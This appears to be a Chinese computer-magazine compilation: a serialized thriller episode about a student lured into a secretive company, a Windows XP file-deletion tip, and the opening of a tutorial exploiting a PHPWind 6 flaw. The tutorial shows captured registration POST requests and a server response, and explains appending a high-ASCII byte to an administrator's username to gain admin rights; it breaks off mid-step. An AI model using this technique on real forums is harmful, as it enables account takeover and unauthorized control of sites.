其实东方带回希若之后，就觉得很后悔，一夜之间确定的感情是多么的幼稚呀。东方实在不知道该怎么安置希若，所以只好把她带回自己的出租房里。东方不是一个轻浮随便的男孩子，但是希若一点儿也没有回到学校的意思，要是再推让的话东方就不是男人了。刚走到出租房门前，房门却敞开着，东方连忙跑到房间里，真担心自己的电脑会被偷了，这可是他最贵重和在乎的东西了。推开房门，里面传来了浓郁的菜香味，东方愣愣地看着在房间里忙来忙去的周欣，真不知道今天又唱的是哪出戏？“回来了，洗手，吃饭！”周欣一脸微笑地说道，隐约中透着一股酸楚的忧伤。“哦！”东方神明地看了看周欣和身后的希若。

“珍惜和东方的每一天。”东方出了一身的冷汗，两个女人字字珠玑的针锋相对真的好可怕。房间里弥漫着没有颜色的硝烟，两个女人的战争格外的激烈。多少让东方有些受宠若惊，有两个女人为自己争斗还是有生以来的第一次。周欣正大展往日的彪悍，而希若也不是吃素的。希若大胆地挽住东方的胳膊，嘻嘻的说道：“东方，告诉这位姐姐你昨晚对我说了什么。”希若从东方的身后的身体钻了出来，大方得体的说道：“你好。”周欣有些错愕：“我是东方的女朋友！”“哦，真高兴认识你，我知道东方以前很喜欢你，不过真可惜，你们最后还是没能在一起。”希若继续微笑，但是这房间里的火药味已经把菜香都覆盖了。周欣表情有点难堪：“人生还没有定完，以前和现在的区别很小。”希若点了点头说道：“对，所以我会照顾好她的。”

“你从什么时候开始跟个侦探似呢？”希若大方地坐在沙发上，旁若无人的大吃大喝，“不要怀疑我是什么侦探，我真是服了她了。如果她真的对你有爱，就会像动物一样在你的房间里留下她的气息，时刻让你知道她的存在，来证明你是她的。”说着，希若又吃了一口菜，“这里除了干得点额外，并没有留下属于她的任何东西，除了这桌饭菜，还不是她做给你的。”希若的话让东方完全打击，这次又要被她气死了，不知道她说的到底是真的还是假的。东方走到门边，还没来得及关门，门铃就响了起来。希若得意地抿嘴一笑。打开门却看到了李智，东方首先一阵高兴，看来希若这次是失算了，很显然李智是来找自己解决案子的。李智看到东方还真有些意外，但马上又恢复平静地笑着说：“你好，东方，我是来找欣欣的。”东方顿时气冲冲的就要关门。李智比东方火大，一把推开了门，说道：“东方，你怎么能这么对待欣欣啊？你还是不是人啊？”东方简直要被气疯了，要不是李智是个警察，自己打不过他，东方早就动手了。兴许他又干瞪着歉，道：“我也没怎么她呀，我怎么不是人了？”

李智愤恨地说道：“她的男朋友刚刚被害了，作为男朋友的你居然这个态度，你简直一点人性都没有。”

男朋友被害？男朋友？这都哪跟哪呢？东方刚要开口说自己不是，就听希若边吃着菜边说道：“笨蛋，这个女人在男友被害后认识了这个警察，为了和这个警察有个私人的空间，所以就搬来你这儿，怕这个警察误会，只好说你是她的远房表哥喽！”

这话一出，空气中仿佛凝固了半秒。看着李智微红的双颊，看来又被希若猜对了。东方想到自己曾经喜欢的女生，如今却与他无关，心里很是失落。正想把李智推出去，离开自己的视线，但李智却紧紧的盯着希若，过了良久才阴沉沉的问道：“你是谁？你怎么会知道我是个警察那种语气？”

是啊，希若怎么会知道李智是警察呢？李智今天穿的挺休闲的，根本看不出警察的特征，除非希若认识他，但显然李智却又不认识希若。东方带着同样的疑惑目光看着希若。

希若显得有些慌张，撒娇得抱着东方的胳膊说道：“你知道啊，我多聪明啊，能看不出来吗？”

是啊，你算看出来了，可是我却看不出你了。东方沉默的看着希若。

最终的结果，就是东方沉默的拎着希若的行李，然后直接把希若和李智都扔在了门外，然后怒吼着说道：“别烦我，都给我滚。”

门砰的一声，敲击在东方的心上。这个世界上还有谁可以信任呢？先是老四的谎言，后是周欣的虚伪，现在又是希若的诡异，他索性蒙上被子沉沉的睡了过去。

“爸爸，爸爸，你疼吗？宝宝给你吹吹！”一双温暖的小手覆盖在东方冰冷的额头上，水灵黝黑的眼眸带着几许担忧。

东方温柔无力的说道：“乖，爸爸没事，只是想好好的休息一会儿。乖宝宝，出去玩吧！”

女孩子的影像很模糊，但是东方却感觉那样的熟悉，仿佛那是生命最重要的东西一样。目光随着女孩子的连衣裙上下跳动着，模糊的看不清楚女孩子的样子，但是直觉却告诉东方，那一定是个漂亮的女孩子。

“爸爸，爸爸，救救宝宝，爸……”沙哑而又稚嫩的呼喊在外面响起。东方强忍着晕晕的头疼，飞奔了出去。女孩子的样子是模糊的，连那个捉住女孩子的身影也是模糊的，东方奋力的奔跑着，想要抓住女孩的手，但是那速度是一个病人无法超越的。

一阵紧急刺耳的刹车声响了起来，东方最后一眼看到的是女孩稚嫩的小手，向自己倒下的方向抓伸着，但大脑却一片空白，连女孩的哭喊都没有了声音。世界一下子好安静，但是他的心却乱了。

“啊……宝宝，宝宝！”东方突然在床上坐了起来，周身都是冷汗，打湿了衣服。女孩？车祸？为什么突然会做这样奇怪的梦呢？那个女孩叫自己爸爸，但是为什么自己的记忆中从来就没有这个小女孩呢？

东方摸了摸脸上的水迹，是汗，但又更像是累。东方洗了把脸，已经是凌晨两点半了，打开久违的电脑，连接上木马，那样公司的电脑里的东西依然和上次一样。只是当东方在硬盘里查找的时候，发现上次下载的照片却不见了。硬盘里除了系统文件外，什么都没有，有几个路径很奇怪，但是查找的时候却发现什么都没有。东方关掉了远程控制的连接，时间太久了会被发现的。

东方坐在电脑前玩着游戏，曾经那么热爱的游戏现在却显得有些枯燥，被低自己几级的小怪给弄死了，还有几个变态总是连起来杀自己，而且还守尸杀人，什么变态人都有。奋力的抵抗了几次，终于放弃了以卵击石的傻X行为。关掉游戏，他痴痴地看着窗外的鱼白，想着那个叫宝宝的乖女孩，想着即将迎来的工作是真是假。

太阳慢慢从东方崭露了头角，东方迫不及待的想去学校看看，是不是真的不用上学了。刚打开门，东方吓了一跳，一个瘦弱的身影蜷缩在墙边，身边还放着一个很大的包袱。

希若？她不会在这里呆了一夜吧。东方蹲在希若的身边，所有的郁闷和气愤现在都已经散去了。东方轻声的问：“你在这里一夜？为什么不敲门进屋呢？”

希若抬起头，脸上有哭过的痕迹，看着东方心疼的样子，希若扁着嘴巴又要哭出来，声音哽咽的说道：“你是不是不要我了？呜呜……”

东方最害怕的就是女孩子哭了，满头大汗的说道：“别哭了，别哭，我要你。”

希若这才止住了哭声，趴在东方的肩膀上抽噎着，虚弱的样子让人心疼，磨灭了对她所有的怀疑和怒火。

东方感觉到希若在颤抖，连忙摸了摸希若的额头，她在发高烧！虽然这个女孩子是一个迷，带着危险的气息，但是东方宁愿相信她过分的聪明，而不是一个处心积虑的阴谋家。心疼地把她抱回到房间里，轻轻的放在床上，然后拿出退烧药给希若吃了下去，再然后就一直看着这个精灵古怪的女孩睡去，才走出了房间。

来到学校，果然老师把毕业证送到了他的手里，然后用极其特别的眼神看了东方一眼。东方觉得那个眼神很怪异，难道老师发现上次去东北的事是假的了，但她为什么不直截了当的问自己呢？难道是怕他，毕竟他借了钱没还。反正东方拿着毕业证灰溜溜的离开了老师的办公室，至于还钱的事，老师没有提，自己也没有提。没钱提个P啊？

回来的路上碰到了周欣，两手抱着一堆的东西，一脸憔悴的走在学校的小路上。当看到东方的时候，冷笑了一声，扬着高傲的头大步的走开了。弄的东方愣神了好久，才呢喃地说道：“我也没惹她啊？”本来还想问问情况并且解释一下的，但一想到生病的希若就放弃了这个想法，就连兄弟们都没有去看。

当上帝为你关闭一扇门的时候就必然会给你再开启另一扇门。刚刚还遗憾看不到哥们呢，一推开家门，就看到哥几个跟一群色狼一样，紧紧的围着希若的床边。

东方大声的咳嗽了一声，哥几个没人搭茬。东方走到希若的床前，此刻的希若像个受了惊吓的小孩子，紧张的看着这一群色狼你一言我一语的说着。

傻话。

“东方，你可回来了！他们是谁啊”希若紧紧的抱住东方的腰，紧张的看着几个人。

“神经病，这可是你的新朋友，来给你介绍一下。他们几个，是我的兄弟，不过智商有点幽默。”东方轻轻的摸着希若的头。

希若还真相信了，重重的点点头说道：“嗯”。

“好了，我们吃饭去吧，你还有点发烧，好好吃顿好的。”东方感觉肚子都快饿扁了，从昨晚就没吃饭一直到现在，都饿着呢。虽然如此，他还是倒掉了周欣做的饭菜，希若虽然没说什么，但微微的叹了口气。

“真的，一起去吃吧？”几兄弟都在一边起哄。

东方白了一眼几个人，说：“滚蛋，见我不在就欺负希若。我还请你们吃饭，做梦吧！”

老三一脸不屑：“让你请吃饭是还清刚才对我们几个人的侮辱，啥叫智力啊，必须请我们吃饭。”

东方无语了，喘了口气说：“那以后你们天天叫我智力，你们就天天请我吃饭吧。”

虽然是这么说，但是几个利嘴之人还是跟着东方，浩浩荡荡，来到了餐厅，然后开始疯狂地大吃大喝。

东方微笑着说问老二：“对了，我离开这几天，咱们学校发生了什么事情啊？”

东方这些天的思维有点乱，他尽力回忆着，却觉得很多事情在这几天，都变得模糊不清了。

老二想了一会儿，“什么事啊？”他又想了想，“没发生什么特别的事情啊，就是周欣的男朋友……好像……”老二皱了皱眉头，“好像是被人打了，现在已经住院了，还挺厉害的。”

东方有些惊讶：“周欣的男朋友？他不是……”

老二接着说：“是啊，是啊，好像现在，还在昏迷着呢，也不知道是被谁打了，叫一砖头给拍到脑袋上去了，那砖头上没指纹，而且出事地点……好像是在他的出租屋里。挺严重的，不过也活该！”老二一边啃着鸡腿一边说，“我也没什么好印象，主要是因为咱喜欢的女孩子在他怀里。”

“其实谁死都没关系，只要自己开心，自己在乎的人活着就行。但是东方总感觉这里面有很多秘密，似乎跟小静有着极其重大的关系。”

那天晚上，几个人喝高了，开始胡说八道，大学的生活就是啤酒和游戏，磨灭了大家最初所有的梦想和希望，走进这所大学都会随着这种消沉的气氛随意沉落，回头遥望变得都不认识自己了。东方几乎要把他们一个个背回去。哥几个还非常不领情的大骂东方不是人，扔下他们，独自去闯天下，干事业去了。念叨着东方刚来的时候跟个傻子似的，整天就知道叫着“宝宝”这两个字……诸如此类云云的话哥几个说的越来越多，也让东方越发的怀疑了起来。为什么他们讲的那些事情，自己一点也不记得？努力的回想，有一段时间的记忆一片空白。

其实人可以有很多事情，东方刚开始感觉自己好像是走进了只有在电影中才能见到的某个机构部门一样，不会这个女鬼小静是什么国际通缉要犯，让自己混进来帮她销毁什么重要证据的吧！他站在前台，四处张望着，回头看了看来的路，却发现已经被一道铁门紧紧的阻挡了。这令他有点紧张，东方等了几分钟后就不耐烦了，对着前台后面的玻璃门喊了起来：“有人吗？我是来面试的。”声音过后，仍然是一片寂静，只是周围的信号指示灯闪烁的频率更高了一些。

东方正想再敲，这时，他才注意到，前台旁边的角落里，有个带有小孔的金属门，他刚往前迈出一步，那个金属门便“咔哒”一声，打开了。一个穿着黑色制服的女人站在门后，脸上毫无表情，像是一个机器人一样，她也没有说话，只是用一种冰冷而空洞的眼神，直勾勾地盯着东方。

东方被她看得有些发毛，就像是被一条毒蛇盯上了一样，浑身不自在。“您好，我是来……”还没等东方说完，那个女人便打断了他，“跟我来。”然后便转过身，朝着一个走廊深处走去。

东方无奈，只好硬着头皮跟了上去。他心中不禁暗暗叫苦，这家公司怎么比第十区戒备还森严？

东方没有说话，只是紧紧的跟在那个女人的后面，不再去打量对方，因为他明白，眼下一定有完整的摄像头正在监视着自己，周围那种被注视的感觉太强烈了。他用眼角的余光打量着四周，四周都是坚固的玻璃门，里面能够看到里面，但是外面却看不到里面。路线很曲折，东拐西拐，这让东方非常没有方向感。终于，在穿过了一段死寂的走廊之后，他们来到了一个看起来像是“消毒间”一般的房间。那个女人终于停下了脚步，然后转过身，面无表情的对着东方，伸出一只手，示意他站到一个特定的位置上去。

“请取下你的手表和任何数字电子类的产品，包括笔和手表等等。”女人说话了，声音冰冷而不容置疑。东方愣了一下，然后照做了，将自己身上仅有的一个手机和几只笔，放在了旁边的一个盒子里。他刚放完，那个盒子便自动收缩进墙壁里了。身边的那个女人便面无表情的在自己的腕表上按了一下，而东方的头顶上，立刻洒下了一片淡蓝色的光幕，扫描着他的全身。

东方感觉自己像是进了海关的安检门，忍不住嘀咕一句：“我艹，这是面试还是被捕？”然后，他听到了一声轻响，那道扫描的光网，便消失了。那个女人这才满意的点了点头，速度从面无表情转为一丝生硬的笑容：“欢迎，请随我来吧。”

东方没有说话，只是默默地跟在那个女人身后，他的心跳得很快，他不想去看那个女人的脸，这里的一切都太神秘了，透着一股诡异的气息。走廊很长，两边都是一扇扇紧闭的金属门，看不到里面是什么。东方压抑着好奇，尽量不去东张西望，避免引起怀疑。但他心里，却在飞速地回忆着，自己从进入这家公司开始，每一步走过的路线，每一个转弯，他都记在了脑子里。终于，那女人在一扇黑色的门前停了下来，然后转过身，客气的对着东方笑了笑，眼神里带着一丝奇怪的表情：“就是这里了，请进。”说完，她便悄无声息地离开了。

东方深吸了一口气，在电子门铃下，门缓缓打开了，一个宽敞的房间出现在他眼前。这个房间空荡荡的，几乎没有摆放什么家具，只有一张办公桌，一张椅子，以及对面墙壁上一台巨大的屏幕。

正当东方在打量着这房间的布置时候，一个声音突兀的从他头顶上方和脚下的四面八方响了起来：“请抬起双手，转身，将指纹放在扫描区。”

东方心中一动，这声音听起来不像是真人，而是一个冰冷的电子语音。他环顾四周，却没有任何人影。他顺从的抬起了双手，转身，然后，看到自己的面前墙上，凸起了一块圆形的玻璃面板。他将手掌按了上去，一束光扫描过他的掌心。

“我已经启动了对你的审查程序。”那个声音继续说道，“在你的身份，在我们的数据库里，将呈现清晰的记录。我们将为你分配一个临时工号，工号5409，欢迎你加入我们。”

“嗯？”东方愣了一下，“什么？”

“恭喜你通过了入职测试。”那个声音平静地说，“你的面试地点，第七实验室，现在，你的第一个任务，是去往第七实验室，接受你的第一项任务。”伴随着这个声音，东方面前的墙壁上出现了一个闪闪发光的箭头，而东方所在地面，也开始微微震动，前方的地板出现了一条发光的通道，指向左边的一个金属门。

东方心里有点发毛，这他妈的也太顺利了？不按套路出牌啊这都什么跟什么呀？他刚想问个清楚，那个声音却好像是读出了他的心思，又补充了一句：“请不要问任何问题。系统只负责指引，不负责解答。”

东方无奈，只好硬着头皮，沿着那条发光的通道，向着那道金属门走了过去。那个声音，如影随形地在他身后响起：“你的个人铭牌，将：放在你的胸前，上面印着你的工号，在你的房间里，根据你的权限，它将作为你的任何支持，帮助你用餐、开启设备等等。请珍惜它。”

这句话让东方出神了，他走到那个金属门前，轻轻一推。门自动滑开，他走了进去。那是一个巨大的、像厂房一样的空间，里面排列着一排排闪着荧光的工作台，像是一个过于科幻的“现代车间”。没有一个人，只有工作台上方的显示屏，在不停地跳动着数据。

东方的心脏，扑通扑通地跳着，他开始明白，从这一刻起，他的人生，真的不一样了。他开始了这段冒险之旅。


### 联隐咖探

公安局、国安局也不会这样吧，这到底是一个什么样的公司呢？东方的心里七上八下的，很后悔来面试，早知道是这样的活还不如不来，被鬼杀死也总比来这个地方要好一些，虽然东方的心里在嘀咕着，但表面上还是尽量的保持着冷静。“你好，东方浩哲。”一个不阴不阳的声音响起的时候，把东方吓了一跳，虽然没有表现出来，但是东方仍能感觉到心跳的速度。“你好，神秘的面试官。”东方一边尽量保持冷静，一边微怒的讽刺着。“年轻人，火气很大啊，不过你是来这里的第一个这么嚣张的人。”面试官的话总让东方有种压迫感，但是却不知道这是为什么。“如果没有诚意让我加入贵公司，那我就要告辞了，不然就滚出来见我。”东方站了起来，准备离开这个让他极不舒服的鬼地方。“呵呵，你想的太简单了，你今天来这里要么就是面试成功，要么就死于非命。你以为自动弃权就能活着走出去吗？”对方的声音没有任何的语调，但是却让东方觉得全身冰冷。“我想活着，但是却希望有自尊的活着，我们之间现在还不是雇主与员工的关系，所以你得尊重我！”东方心里一阵骇然，但是仍然面对着监控器认真的说出了这样一番话。“你很有胆识，也很有思想，虽然在这里没有人权也没有法律，不过就冲你这份胆识，我答应出来见你。”这话说完后四周一下子变得很安静，让人一时有些不适应。东方重新坐回了椅子上，心跳的速度不断加快，连呼吸都显得很不正常了，在刚才那一刻东方突然觉得人的生命特别的珍贵。门打开了，首先映入眼帘的是一个坐在轮椅上的老人，说他是老人其实有些过分，因为他的皮肤没有一丝的褶皱，白的透明，但是头发、眉毛却都是银白色的，乍一看就和一个年近古稀的老人没有什么区别。紧接着，东方又看到了推着轮椅的小静，那个曾经不断骚扰他的女人。小静的出现让东方很是迷茫，这个女人到底是怎么回事，让他到这个该死的公司做卧底的是她，但是她却又以高层的贴身女佣的方式现身了，真让人想不明白。东方深深的看了小静一眼，但是他在小静的眼睛里看不到答案，因为那双眼太过深邃了。“觉得她很熟悉吗？”坐在轮椅上的白发人首先问了一句莫名其妙的话。东方的心里一惊，自己只是轻描淡写的看了那么一眼，对方就能看出异常，这个白发人也太不简单了。东方淡淡的说：“是的，有些事情是存在的，但却不是你脑子里的那些，你脑海中的记忆都是自己虚构的。”

点了点头，按他的话就一起死，自己现在连小命都得听别人的了，这不都是这个该死的小静害的吗？白发人叹息着说道：“看来，那个女人在你的心里留下了很多的东西，足以让你连一场离奇的车祸都不能忘记。”车祸？记忆？东方茫然地看着眼前的白发人，他认识自己吗？为什么会这么说呢？什么车祸？什么女人？东方怀疑了片刻，不解的问道：“你在说什么？你能说清楚一些吗？”白发人笑了笑，回过头凝视着眼前的东方说道：“你记得你父母是什么模样吗？他们多大年纪了？你小时候又是什么样子的？”东方的大脑不停的运转着，当有人问起这些问题，而你却发现自己根本就不知道自己的童年是如何度过的，也不知道父母的模样，即使有些零星的记忆也完全不能联系起来，那会让人非常恐慌。东方挣扎着说道：“我记得我有父母的，虽然不知道他们多大年纪，也不知道我的童年是什么样子的，但是他们的记忆，是在我脑子里的。你也说过我出过一场车祸，虽然我不知道那是不是真的，但是很多事情一定都存在的，只是我想不起来而已。”白发人沉默的看着东方，过了良久才说道：“这才是你最真实的记忆，只是你选择了遗忘，也许是太痛苦了吧！”东方擦拭眼里的泪水，说道：“不可能，每个人都一样有自己的父母的。”白发人意味深长的一笑，说道：“你欠我的，没还清就永远别想逃脱，你被录用了，过一会儿安妮会带你出去，但是不要在背后盯着人家看，这不是你原有的风格。”说完这些后，身后传来冷冰冰的小静的声音：“你记得你父母是什么模样吗？他们多大年纪了？你小时候又是什么样子的？”

“喂，告诉我，我是谁……”东方喊着，但是白发人却没有停下轮椅，东方想跟出去问个清楚，但是门却锁的紧紧的。东方不停的拍着门撞着门，但是这扇门却纹丝不动，从一开始肩膀剧烈的疼痛，到最后开始发麻，门都纹丝不动，最后不得不放弃。“咔哒”一声门开了，那个漂亮的女前台安妮推门走了进来，一脸鄙夷的说：“这扇门是向里开的，你老是在外撞什么，除非门坏掉你才能出去，不是这扇门坏了。”东方愕然的看着她，突然发现脑袋好像短路了一样，安妮莞尔一笑：“走吧，我带你去看看工作的地方。”东方本来想坐在椅子上，但是出于好奇，跟了出去。几秒钟后，便迅速的跟了出去。东方工作的地方有三十平方米左右大小，里面有几台电脑，但是没有任何的显示器，房间里每个角落都有一个监视器，无论东方站在哪个角度都能被监视到。东方在心里不停的咒骂着那个白发人，简直就是一个变态，与其说是来工作，还不如说是来被控制的稀有动物。而东方的工作也很变态，每天就是在不停的看着电脑里一些莫名其妙的软件参数，这里没有QQ、没有MSN、没有网聊，也没有电影，但是他的工作是聊天保密电脑里的一切软件都在正常运作，除此之外他没有任何的娱乐节目。有着每天送来的美味，和这舒适的房间，他还是觉得索然无味，他不知道自己有多久没有说话了。在这里东方不知道自己来了多少次，没有人权也没有自由，寂寞随时都如影随形。潮一般涌来，总会让人措手不及的惊愕，但是现在的东方像是闷在沙滩上的鱼，待了两天也就无力反抗了。东方喜欢上了在这三十平方米的工作室里乱晃。寂寞和孤独能让人颓废悲伤，摧毁了灵魂，摧毁了信仰，我安慰着解脱，哪怕最后的结果是死亡。”这句简短的话让东方热血澎湃，隐约中能感到桌子底下有一个黑色塑料袋，里面是一个U盘，静静地藏在下面。东方害怕自己时常会产生怀疑，双眼逐渐恢复到电脑上。当人面临着四面楚歌的境地时，仍然会找到一个出口，就犹如身处绝境的东方一样。东方在几台监视器转动的时候，飞快的撕下了桌子下面的黑色塑料袋，装在了大衣的口袋里。又耐心的熬过了几个小时后，急冲冲的逃进了厕所。厕所是这个地方唯一人性化的地方，因为在厕所里没有监控器。东方取出刚才的黑色塑料袋，里面是一块U盘，小心地装在了裤兜里。东方将头靠在门上，屏住呼吸，隐约中能察觉到桌子底下那个黑色塑料袋里是一块U盘，精致而小巧。

“或者，你是一个和我同样受到没有自由折磨的人，见不到家人，见不到外面的阳光，你来的目的永远都无法实现，你不知道自己操作的软件是做什么用的，或者你是多年以后的我，但是不要忘记你的宗旨，摧毁一切邪恶。把这个U盘插到第三台电脑的第三个USB插口上，你将有机会得到秘密，或者逃走。”字体很熟悉，东方好像在哪里见过这样的字，但是现在的他无暇考虑这些，只是不停的思考着，这些是不是真的，是不是那个白发人在试探自己呢？虽然东方觉得生死在自由面前显得无足轻重，可是有机会活着离开的话，为什么又要选择死去？东方决定试一下。

监视器继续缓慢而有序的转动着，东方迅速的把U盘插在了第三台电脑上，几台监视器突然失灵了，并且发出了刺耳的警报声。东方回头看了看门外，所有的大门此刻都敞开着，电脑显示器上出现了一个对话框：“是否连接所有车间？”

是逃走还是留下窥探这个秘密？就在这一瞬间东方的大脑里不停的闪烁着这样的记忆，好像很多年前这样的情景也曾出现过一次，似乎那次自己是选择了夺门而出。是的，那是选择自由的唯一方式，但是也让自己错过了很多，至少那个孩子在自己的心中就成了永久的谜团。

东方快速的点击了是，瞬间电脑的屏幕上都变成了监控器的画面，里面是无数软件在杂乱无章的操作着，地面上，滚动的皮带上到处是白色的粉末，白发人惊恐的出现在了视频中，东方不知道为什么，熟练的操作起了U盘上的屏幕录像专家，把屏幕里的一切都录制在了U盘上。直到屏幕变黑了，房间一下子都沉浸在了黑暗之中。

东方凭借着依稀的记忆，迅速拔掉U盘，冲着大门飞快的跑了出去。刚跑出去没多远，东方在黑暗中就听到对面传来了一阵细微有序的脚步声，东方不敢再往前面跑了，可是往后面就要退回到办公室了，怎么办呢？难道真的要死在这里吗？

“跟我来！”一个女人低沉的声音在东方耳边响起，然后一双温热的手紧紧的拉住了东方。东方没有丝毫迟疑的紧跟着这个神秘的女人奔跑着，黑暗中那女人就像是长了一双夜视眼一样，轻松快捷的躲过了一个个的障碍，但身后的追兵也不是饭桶，一步步的跟了过来。

前面那女人咣的一脚踹开了一扇门，外面是晴朗的天空，有些不适应的东方连忙用手遮住了刺眼的阳光，十几秒钟后才适应这晴朗的天气。这时，东方才看清在前面拉着自己的是小静，那个神秘又可恶的女人。

东方想骂几句，但是后面紧紧相逼的追兵却又时刻提醒着自己，现在可不是追命要债的时候。

小静一直拉着东方跑到了天台的边缘，东方这才意识到自己是在哪里。低下头看着深不见底的楼下，东方感觉到自己的腿肚子都在转筋。

“你们无路可逃了！”那个白发人坐着轮椅出现在了小静和东方的面前，而他的身后跟着十几个手拿冲锋枪的蒙面人，这是在拍电影吗？也不知道这些人手里拿的是玩具枪，还是真枪，反正挺吓人的。东方的心里一直七上八下的，不停的祈祷着，希望这些家伙只是拿着几支玩具枪吓唬人而已。

“东方是卧底这我可以理解，但是小静，你为什么也要背叛我？”白发人悲痛的看着一直都很冷静的小静说道。

东方现在真有种受宠若惊的感觉，没想到自己这么快就升级到卧底的这个身份。

“少废话，别以为别人不知道你一直都在做什么，而你也不要忘记，几年前就是你把我姐姐从这个楼上逼着跳下去的。”一直很冷静的小静此刻也有些情绪的波动。

白发人脸上的哀伤更加浓郁了，声音颤抖的说道：“原来你是薇儿的妹妹？但是这一切你不能怪我，要怪就怪东方这个家伙吧，如果不是他勾引薇儿，让薇儿神魂颠倒的帮他逃走，薇儿也不会情急之下从这儿跳下去。”

“不要狡辩，是因为你贩毒才让姐姐觉得你很恶心。”小静恶狠狠的说道。

薇儿？贩毒？东方的大脑里一直在不停的回忆着，有些记忆像是开闸的洪水一样，凶猛而猛烈。是的，东方朦胧中，亲眼看到一个漂亮的女生神情无限温柔的看着自己，他记得那女孩的最后一句话是：“我爱你，但愿你能代替我活着。”

东方颓然的坐到了地上，大口大口的喘息着，他感觉一时间无法接受那些悲伤的记忆。

“东方，你怎么了？”小静此刻焦急的问道。

东方眼睛泛红的说道：“我好像记起那个叫薇儿的女孩子了，她对我笑，让我好好的活着。”

“不许你关心他！”白发人怒吼着，像是愤怒的野兽一样。

而他身后的人也全都举起了枪，只要白发人一声令下，那么小静和东方就会立刻变成马蜂窝。

“小静，你过来，不要像你姐姐那么傻，过来吧，我不会追究你对我的不忠诚。”白发人似乎做了最后的决定。

小静紧紧的拉着东方的手，小声的说道：“跟我从这里跳下去。”

什么？这丫头不是疯了吧，东方微微的摇了摇头：“我不想和你疯，别开玩笑了。”

小静鄙视的看着东方，说道：“你这样也算是个国际刑警，也算是我姐姐最爱的人。”

东方愤怒的站了起来，但是往下看了看遥远的地面，再一次的动摇了。对小静摇了摇头，就算现在她说自己不是男人都行，就算自己变成马蜂窝，也不要变成柿子饼。

“我不认识你姐姐，我也不是什么警察，我……”

还没等东方说完，只感觉身后一股风，接着他被小静给踹了下去。看来遇见小静的最终结果都是只有一个——死亡……

耳边呼啸的风，眼前飘忽片段的记忆，东方紧紧的闭上了眼睛。

（待续）

## WindowsXP小技巧

### 直接彻底删除文件

其实很多情况下放到回收站的东西我们会不再理睬的，所以为了免去清空回收站的步骤，可以做如下设置。开始 运行 输入“gpedit.msc”。定位到：用户配置 管理模板—Windows组件—Windows资源管理器，在右边栏找到“不要将已删除的文件移动到回收站”，双击并启用。

另外一种方法是：直接右键点击回收站，选择属性，在全局设置中选中“删除时不将文件移入回收站，而是直接删除”。如果你已经按照上一种方法设置，那么，所有的选项将为灰色。

### PHPWind 管理权限泄露漏洞之利用

姬良

前段时间网上暴出了PHPWind的最新漏洞，这几天抽空好好的研究了一下，经测试发现的确可以注册和管理员用户名一样的用户。该漏洞主要是由于Mysql会舍弃没有用处的ASCII129-255而造成的，我在网上搜索了一下相关的资料，也没有找到为什么，可以说PHPWind最大的失误不是程序，而是没有把username设置为唯一。我们可以构造一个和某个管理员名字一样的ID再加上一个无效的ASCII码进行注册，表中就会出现两个一样的用户名，而forums.forumadmin字段里存的用户名（一般就是管理员或者版主的用户名），这样就可以获得全部的前台权限了。


```
POST http://10.1.41.248/phpwind6/register.php? HTTP/1.0
Accept: image/gif, image/x-xbitmap, image/jpeg, application/x-shockwave-flash, application/msword, */*
Referer: http://10.1.41.248/phpwind6/register.php
Accept-Language: zh-cn,zh-tw;q=0.5
Content-Type: application/x-www-form-urlencoded
Proxy-Connection: Keep-Alive
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 1.7; .NET CLR 1.1.4322; .NET CLR 2.0.50727)
Host: 10.1.41.248
Content-Length: 236
Pragma: no-cache
Cookie: 49860_lastpos=other; 49860_ol_offset=194; 49860_lastvisit=44%091213192159%092Fphpwind6%2Fregister.php%3F
regname=lucka&regpwd=123456&regpwdrepeat=123456&regemail=gao200511@avl.com.cn&regoicq=&reghomepage=&regfrom=&regsex=0&
```

图 1

以上就是关于该漏洞的简单说明，我们首先注册一个拥有特殊字符的用户名（一般就是管理员或者版主的用户名后面加上一个ASCII129-255的特殊字符），然后使用这个用户登录。通常情况下这个用户是不能直接登录的，因为查询的时候只是数据库返回一条记录（有兴趣的读者可以自己查看相关代码，就会明白原因了），这也就是为什么要利用工具保存COOKIE后再进行登录的原因。成功登录后，程序就开始按上面的用户名的方式来验证我们是不是有前台的权限了，由于我们和管理员的用户名是一样的，所以自然也就有前台权限了。


```
POST http://10.1.41.248/phpwind6/register.php? HTTP/1.0
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/msword, */*
Referer: http://10.1.41.248/phpwind6/register.php
Accept-Language: zh-cn,zh-tw;q=0.5
Content-Type: application/x-www-form-urlencoded
Proxy-Connection: Keep-Alive
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 1.7; .NET CLR 1.1.4322; .NET CLR 2.0.50727)
Host: 10.1.41.248
Content-Length: 239
Pragma: no-cache
Cookie: 49860_lastpos=other; 49860_ol_offset=194; 49860_lastvisit=44%091213192159%092Fphpwind6%2Fregister.php%3F
regname=baker%2C&regpwd=123456&regpwdrepeat=123456&regemail=gao200511@avl.com.cn&regoicq=&reghomepage=&regfrom=&regsex=0&reg
```

图 2

下面来看看我的详细利用过程，首先是注册抓包，这是为修改数据包提供原始的资料。打开IE浏览器进入PHPWind的注册用户页面，填写好注册信息，然后再打开Winsock，点击打开图标，选择打开PHPWind的那个IE进程，然后程序会自动进行监视。这时我们回到IE里，点击提交，再回到Winsock中，已经抓到很多数据包了，我们需要的是POST数据包（get是下载的，post是提交的），如图1。


```
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Date: Thu, 12 Jun 2008 08:46:29 GMT
X-Powered-By: PHP/5.2.0
Set-Cookie: 49860_lastpos=other; expires=Fri, 12-Jun-2009 08:46:28 GMT; path=/
Set-Cookie: 49860_lastvisit=44%0912132603088%092Fphpwind6%2Fregister.php%3F; expires=Fri, 12-Jun-2009 08:46:28 GMT; path=/
Set-Cookie: 49860_winduser=BQU5UFtrAUVECBQIH8UI1HDI9TUQEHUgxQUUVEuJEuFNMbg9u; expires=Fri, 12-Jun-2009 08:46:28 GMT; path=/
Set-Cookie: 49860_ck_info=2%7C200; expires=Fri, 12-Jun-2009 08:46:28 GMT; path=/
Set-Cookie: 49860_lastvisit=deleted; expires=Wed, 13-Jun-2007 08:46:27 GMT; path=/
Content-type: text/html
<title>PHPwind Board</title>
恭喜您,完成注册现在可以开始使用您的会员权利了
如果您的浏览器没有自动跳转,请点击这里
```

图 3

右键单击这个数据包，将其复制到文本文件中，我们来修改里面的数据，注册的用户名一定得是拥有一定权限的用户（比如管理员或者版主等）。我选择测试的用户是baker，因为这个用户是管理员权限，修改后一定要注意增加或者减

### 一个人的防黑客篇

